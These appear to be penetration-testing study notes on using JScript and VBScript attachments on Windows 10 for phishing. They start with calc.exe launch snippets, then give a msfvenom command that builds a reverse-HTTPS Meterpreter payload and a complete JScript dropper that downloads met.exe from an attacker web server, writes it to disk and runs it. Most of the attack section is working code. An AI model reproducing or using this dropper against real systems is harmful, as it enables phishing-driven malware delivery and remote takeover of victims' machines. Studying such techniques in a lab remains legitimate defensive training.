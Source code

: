 ### Jscript on Windows 10
- Javascript attachments as alternative to Office VBA macros
- phishing attacks
- executing jscript outside a browser bypasses security settings

##### JS Script to open calc.exe
```js
var shell = new ActiveXObject("WScript.Shell")
var res = shell.Run("calc.exe");
```

#### VBScript to open calc.exe
```vbscript
Set objShell = CreateObject("WScript.Shell")
objShell.Run "calc.exe"
Set objShell = Nothing
```

### JScript Meterpreter Dropper

- _MSXML2.XMLHTTP_ object, which is based on the Microsoft XML Core Services, and its associated HTTP protocol parser. This object provides client-side protocol support to communicate with HTTP servers. Although it is not documented, it is present in all modern versions of Windows.
- To summarize our code, we'll use the (_url_) variable to set the URL of the Meterpreter executable. Then we'll create a Windows Script _MSXML2.XMLHTTP_ object and call the _Open_ method on that object to specify a GET request along with the URL. Finally, we'll send the GET request to download the file.
- met.exe
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$(hostname -I | cut -d' ' -f1) LPORT=443 EXITFUNCTION=thread -f exe -o met.exe
```
```Jscript
var url = "http://192.168.119.120/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();
```

- start webserver on kali host `python3 -m http.server 80`
- met.js
```javascript
var url = "http://192.168.1.110/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{
    var Stream = WScript.CreateObject('ADODB.Stream');

    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;

    Stream.SaveToFile("met.exe", 2);
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```
